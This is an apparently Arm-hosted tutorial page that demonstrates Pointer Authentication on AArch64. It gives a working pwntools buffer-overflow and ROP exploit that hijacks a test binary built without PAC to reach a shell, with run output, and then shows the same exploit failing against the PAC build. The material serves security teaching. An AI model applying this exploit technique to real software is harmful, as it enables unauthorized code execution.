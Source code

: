 ```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 2 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```



## Pre-requisites

Install `pwntools` on your c7g EC2 instance. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```

## Write the python script to exploit the application

Eith editor of choice create the script `exploit.py`

```console
vi exploit.py
```

Now copy the contents below into `exploit.py`

```console
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')


binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```


## Run exploit.py on `main_nopac`

Let us run this script which exploits `main_nopac`

```console
./exploit.py
```

You will the output below

```console
[*] '/home/ubuntu/pac-test/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 48515
[*] Switching to interactive mode
Hello World!
$
```

You will be at an interactive shell prompt when you execute this script. You can use the interactive shell and run any commands. You were able to successfully exploit the flow control execution of the program and jump to address `0x4006f8` which maps to entry address of `func2` in `main.c`. `func2` invokes the interactive shell `/bin/sh`. With a legitimate flow of execution, `func2` would never be invoked and you would not be able to get to an interactive shell prompt.

### Run exploit.py on `main_pac`

This time we will use the same exploit.py script but run it on the `main_pac` application which was built with PAC instructions for enhanced security.

Just replace the arguments passed in the elf and process commands with `main_pac` instead and save to a new file `exploit_pac.py`

```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
```

Now execute `exploit_pac.py`

```console
chmod +x exploit_pac.py
./exploit_pac.py
```

This time you will not be able to use the interactive shell prompt and get a SIGSEV instead. As the signed PAC instruction could not be authenticated we were not able to exploit the application.

```console
[*] '/home/ubuntu/pac-test/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 48554
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 48554)
[*] Got EOF while sending in interactive
```

